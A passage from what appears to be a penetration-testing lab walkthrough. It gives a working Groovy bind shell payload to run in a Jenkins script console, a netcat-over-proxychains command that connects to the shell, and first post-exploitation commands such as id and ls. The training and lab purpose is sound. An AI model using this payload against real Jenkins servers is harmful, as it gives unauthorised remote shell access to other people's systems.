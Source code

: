 **Groovy bind shell payload:**

```groovy
int port=5555;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![22](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/22.png)

**Payload Reference:** [https://dzmitry-savitski.github.io/2018/03/groovy-reverse-and-bind-shell](https://dzmitry-savitski.github.io/2018/03/groovy-reverse-and-bind-shell)

Once the payload has been executed in the Groovy script console, we can use **netcat** utility to connect to the bind shell started on the target machine (running Jenkins) using **proxychains**:

**Command:**

```
proxychains nc -v 192.108.156.3 5555
```

![22\_1](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/22\_1.png)

And that should connect us to the target machine running Jenkins!

**Step 23:** Gathering information about the target machine running Jenkins.

Now we can issue some commands to find out more information about the user we are operating as and the target server machine:

**Command:**

```
id
```

![23](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/23.png)

We are currently running as`jenkins`user.

Let's get the listing of files:

**Command:**

```
ls
```

![23\_1](https://assets.ine.com/content/pta-labs/18\_black\_box\_penetration\_test\_2/23\_1.png)

Let's get the process listing:
